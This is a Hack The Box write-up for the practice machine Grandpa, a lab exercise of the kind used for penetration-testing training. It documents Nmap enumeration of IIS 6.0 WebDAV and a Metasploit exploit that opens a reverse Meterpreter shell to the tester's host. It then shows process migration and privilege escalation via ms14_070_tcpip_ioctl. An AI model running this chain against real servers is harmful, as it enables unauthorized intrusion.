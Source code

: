 # HTB - Grandpa

#### Ip: 10.10.10.14
#### Name: Grandpa
#### Rating: Easy

----------------------------------------------------------------------

![Grandpa.png](../assets/grandpa_assets/Grandpa.png)

### Enumeration

Lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/HTB/Grandpa]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.14  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 10:11 CDT
Nmap scan report for 10.10.10.14
Host is up (0.066s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```

Ok, looks like just port 80 is open. Lets also scan the port with `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Grandpa]
└─$ sudo nmap -sC -sV -T4 10.10.10.14 -p 80    
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 10:13 CDT
Nmap scan report for 10.10.10.14
Host is up (0.073s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Thu, 03 Aug 2023 15:13:57 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.08 seconds
```

We can see here that the site is running IIS 6.0, which is super old.

Navigating to the site we see the old-school and familiar Under Construction page from IIS 6 (I'm really dating myself here):

![site.png](../assets/grandpa_assets/site.png)

Searching for exploits for IIS 6 I find a page from Rapid7 (the owners of Metasploit), outlining the vulnerability.

![rapid.png](../assets/grandpa_assets/rapid.png)

This looks like it's definitely worth trying.

Lets open up Metasploit and find the right module:

![msf.png](../assets/grandpa_assets/msf.png)

We can then update the lhost and Rhosts fields in Options:

![options.png](../assets/grandpa_assets/options.png)

Once set, all we need to do is `run` (or `exploit`, if you're feeling like Mr. Robot or something), and we open up a Meterpreter shell:

```text
msf6 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run

[*] Started reverse TCP handler on 10.10.14.46:4444 
[*] Trying path length 3 to 60 ...
[*] Sending stage (175686 bytes) to 10.10.10.14
[*] Meterpreter session 1 opened (10.10.14.46:4444 -> 10.10.10.14:1030) at 2023-08-03 10:45:34 -0500


meterpreter > 
``` 

It appears the shell we are in however is a bit wonky:

```text
meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```
If we run `ps` in Meterpreter, we can find list out running processes.

![ps.png](../assets/grandpa_assets/ps.png)

Process 1736 seems especially interesting because it is running as  NT AUTHORITY\NETWORK SERVICE.

We can migrate to that process using the `migrate` command:

```text
meterpreter > migrate 1736
[*] Migrating from 1716 to 1736...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Cool. Now we'll need to focus on escalating our privileges to get the flags:

```text
C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.

C:\Documents and Settings>cd Harry
cd Harry
Access is denied.
```

Lets go ahead and `background` this session and import the local_exploit_suggester module to check for privilege escalation vectors for us:

![bg.png](../assets/grandpa_assets/bg.png)

Nice, the module found quite a few possible vectors. I'm most interested in trying exploit/windows/local/ms14_070_tcpip_ioctl.

I can search for and use this mmodule and then set the session as well as my lhost IP adress:

```text
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
```

Once this runs we can interact with our session again using `sessions -i 1` and confirm the privilege escalation worked!

![worked.png](../assets/grandpa_assets/worked.png)

We can now grab the two flags:

![user_flag.png](../assets/grandpa_assets/user_flag.png)

![root_flag.png](../assets/grandpa_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------------

